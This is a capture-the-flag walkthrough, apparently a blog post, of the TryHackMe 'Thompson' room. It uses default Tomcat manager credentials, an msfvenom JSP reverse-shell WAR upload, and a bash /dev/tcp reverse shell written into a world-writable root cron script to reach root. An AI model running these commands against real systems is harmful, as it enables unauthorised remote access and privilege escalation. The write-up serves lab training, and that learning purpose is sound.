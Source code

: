 # Thompson
**Date:** May 30th 2022

**Author:** j.info

**Link:** [**Thompson**](https://tryhackme.com/room/bsidesgtthompson) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/thompson0.png)

<br>

## Objectives
- user.txt
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.2.24`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
|_http-open-proxy: Proxy might be redirecting requests
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.2.24 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/docs                 (Status: 200) [Size: 16585]
/examples             (Status: 200) [Size: 1126] 
/manager              (Status: 401) [Size: 2473]
/RELEASE-NOTES.txt    (Status: 200) [Size: 7063]
```

<br>

## Website Digging

Visiting the main page:

![](images/thompson1.png)

Looking at **/docs** shows us Tomcat documentation. **/examples** shows us Tomcat examples for servlets, JSP, and websockets.

**/manager** is a login page:

![](images/thompson2.png)

Not having any credentials yet I click cancel and am presented with the following screen:

![](images/thompson3.png)

A username and password is listed so I decide to try that on the login page again, and it works. We get the following:

![](images/thompson4.png)

Of particular interest is the fact that we can upload and deply WAR files! It's possible to create reverse shells using **msfvenom** and have them be in the WAR format. You can [**read more about that here**](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/).

I create our shell like this:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.6.127.197 LPORT=4444 -f war -o rev-shell.war`

```
Payload size: 1104 bytes
Final size of war file: 1104 bytes
Saved as: rev-shell.war
```

Now that we have that taken care of let's see about getting a shell.

<br>

## System Access

I click the browse button under the WAR file to deploy section and navigate to the file we just created, select it, and then click deploy. After doing so a new item shows up in the applications section right above the deploy box named **/rev-shell**:

![](images/thompson5.png)

I start a listener up on my system and then click the **/rev-shell** which connects back to us:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.24] 38936
whoami
tomcat
hostname
ubuntu
```

I fix the shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

CTRL + Z to background shell

`stty raw -echo; fg`

`stty -rows 49 -columns 103`

And we have a much nicer shell to work with.

```
tomcat@ubuntu:/$
```

<br>

## System Enumeration

`sudo -l` requires a password so no luck there yet.

The following users have login shells:

```
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:tom,,,:/home/jack:/bin/bash
tomcat:x:1001:1001::/opt/tomcat:/bin/bash
```

Our `id` shows nothing out of the ordinary:

```
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

**Jack** however has additional privileges:

```
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Checking out **/home** shows us a directory for **jack**. Looking in that gives us our first flag, the **user.txt** file:

`wc -c user.txt`

```
33 user.txt
```

Looking at **cron jobs** with `less /etc/crontab` shows us an interesting looking job running from the jack home directory:

```
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh

```

So it will run it as root. Checking to see if we have write permissions to that file:

```
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

Looking at the script:

```
#!/bin/bash
id > test.txt
```

<br>

## Root

I modify the shell script to the following:

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.6.127.197/5555 0>&1
```

And then setup a listener to catch the connection. After a few seconds we get a shell back as root:

```
listening on [any] 5555 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.24] 44890
bash: cannot set terminal process group (16284): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack#
```

In the root directory is our last flag, **root.txt**.

`wc -c /root/root.txt`

```
33 /root/root.txt
```

<br>

With that we've completed this CTF!

![](images/thompson6.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding default **Tomcat credentials** and logging into the **/manager** console with them
- The **/manager** console allows us to deploy new **WAR** files and we create a **reverse shell with msfvenom** and then upload and deploy it to establish an initial foothold on the box
- Finding a **cron job** that executes a shell script in a users home directory as root, and we had the ability to modify the shell script which was done to send a **reverse shell** back to us as **root**

<br>

Many thanks to:
- [**stuxnet**](https://tryhackme.com/p/stuxnet) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)